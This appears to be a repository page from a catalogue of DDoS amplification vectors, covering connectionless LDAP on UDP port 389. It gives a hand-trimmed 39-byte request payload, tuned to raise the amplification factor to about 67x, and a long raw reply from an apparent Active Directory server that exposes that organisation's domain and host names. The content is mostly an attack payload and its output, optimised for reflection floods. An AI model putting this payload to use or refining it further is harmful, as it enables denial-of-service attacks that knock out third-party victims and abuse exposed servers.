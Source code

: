 # cLDAP (Connectionless Lightweight Directory Access Protocol)

## Port: 389

## Proto: UDP

## Amplification factor: 50-70x

---

### Refined payload

- From 51 to 39 bytes whilst remaining well-formed: <pre>0%\02\01\07c \04\00\n\01\00\n\01\00\02\01\00\02\01\00\01\01\00\87\0bobjectclass0\00</pre>
- Amplification factor increased to ~67x

### Example response

<pre>
0\84\00\00\0b\0e\02\01\07d\84\00\00\0b\05\04\000\84\00\00\n\fd0\84\00\00\00&\04\0bcurrentTime1\84\00\00\00\13\04\1120190922100706.0Z0\84\00\00\00R\04\11subschemaSubentry1\84\00\00\009\047CN=Aggregate,CN=Schema,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\82\04\rdsServiceName1\84\00\00\00m\04kCN=NTDS Settings,CN=RC81230,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\bb\04\0enamingContexts1\84\00\00\00\a5\04\0fDC=Mogambo,DC=D\04 CN=Configuration,DC=Mogambo,DC=D\04*CN=Schema,CN=Configuration,DC=Mogambo,DC=D\04!DC=DomainDnsZones,DC=Mogambo,DC=D\04!DC=ForestDnsZones,DC=Mogambo,DC=D0\84\00\00\00-\04\14defaultNamingContext1\84\00\00\00\11\04\0fDC=Mogambo,DC=D0\84\00\00\00G\04\13schemaNamingContext1\84\00\00\00,\04*CN=Schema,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00D\04\1aconfigurationNamingContext1\84\00\00\00"\04 CN=Configuration,DC=Mogambo,DC=D0\84\00\00\000\04\17rootDomainNamingContext1\84\00\00\00\11\04\0fDC=Mogambo,DC=D0\84\00\00\03\a9\04\10supportedControl1\84\00\00\03\91\04\161.2.840.113556.1.4.319\04\161.2.840.113556.1.4.801\04\161.2.840.113556.1.4.473\04\161.2.840.113556.1.4.528\04\161.2.840.113556.1.4.417\04\161.2.840.113556.1.4.619\04\161.2.840.113556.1.4.841\04\161.2.840.113556.1.4.529\04\161.2.840.113556.1.4.805\04\161.2.840.113556.1.4.521\04\161.2.840.113556.1.4.970\04\171.2.840.113556.1.4.1338\04\161.2.840.113556.1.4.474\04\171.2.840.113556.1.4.1339\04\171.2.840.113556.1.4.1340\04\171.2.840.113556.1.4.1413\04\172.16.840.1.113730.3.4.9\04\182.16.840.1.113730.3.4.10\04\171.2.840.113556.1.4.1504\04\171.2.840.113556.1.4.1852\04\161.2.840.113556.1.4.802\04\171.2.840.113556.1.4.1907\04\171.2.840.113556.1.4.1948\04\171.2.840.113556.1.4.1974\04\171.2.840.113556.1.4.1341\04\171.2.840.113556.1.4.2026\04\171.2.840.113556.1.4.2064\04\171.2.840.113556.1.4.2065\04\171.2.840.113556.1.4.2066\04\171.2.840.113556.1.4.2090\04\171.2.840.113556.1.4.2205\04\171.2.840.113556.1.4.2204\04\171.2.840.113556.1.4.2206\04\171.2.840.113556.1.4.2211\04\171.2.840.113556.1.4.2239\04\171.2.840.113556.1.4.2255\04\171.2.840.113556.1.4.22560\84\00\00\00"\04\14supportedLDAPVersion1\84\00\00\00\06\04\013\04\0120\84\00\00\01\86\04\15supportedLDAPPolicies1\84\00\00\01i\04\0eMaxPoolThreads\04\19MaxPercentDirSyncRequests\04\0fMaxDatagramRecv\04\10MaxReceiveBuffer\04\0fInitRecvTimeout\04\0eMaxConnections\04\0fMaxConnIdleTime\04\0bMaxPageSize\04\16MaxBatchReturnMessages\04\10MaxQueryDuration\04\10MaxTempTableSize\04\10MaxResultSetSize\04\rMinResultSets\04\14MaxResultSetsPerConn\04\16MaxNotificationPerConn\04\0bMaxValRange\04\15MaxValRangeTransitive\04\11ThreadMemoryLimit\04\18SystemMemoryLimitPercent0\84\00\00\00%\04\13highestCommittedUSN1\84\00\00\00\n\04\08224379550\84\00\00\00I\04\17supportedSASLMechanisms1\84\00\00\00*\04\06GSSAPI\04\nGSS-SPNEGO\04\08EXTERNAL\04\nDIGEST-MD50\84\00\00\00&\04\0bdnsHostName1\84\00\00\00\13\04\11rc81230.Mogambo.D0\84\00\00\005\04\0fldapServiceName1\84\00\00\00\1e\04\1cMogambo.D:rc81230$@MOGAMBO.D0\84\00\00\00n\04\nserverName1\84\00\00\00\\\04ZCN=RC81230,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\b2\04\15supportedCapabilities1\84\00\00\00\95\04\161.2.840.113556.1.4.800\04\171.2.840.113556.1.4.1670\04\171.2.840.113556.1.4.1791\04\171.2.840.113556.1.4.1935\04\171.2.840.113556.1.4.2080\04\171.2.840.113556.1.4.22370\84\00\00\00\1c\04\0eisSynchronized1\84\00\00\00\06\04\04TRUE0\84\00\00\00"\04\14isGlobalCatalogReady1\84\00\00\00\06\04\04TRUE0\84\00\00\00\1e\04\13domainFunctionality1\84\00\00\00\03\04\0160\84\00\00\00\1e\04\13forestFunctionality1\84\00\00\00\03\04\0160\84\00\00\00(\04\1ddomainControllerFunctionality1\84\00\00\00\03\04\0160\84\00\00\00\10\02\01\07e\84\00\00\00\07\n\01\00\04\00\04\00</pre>
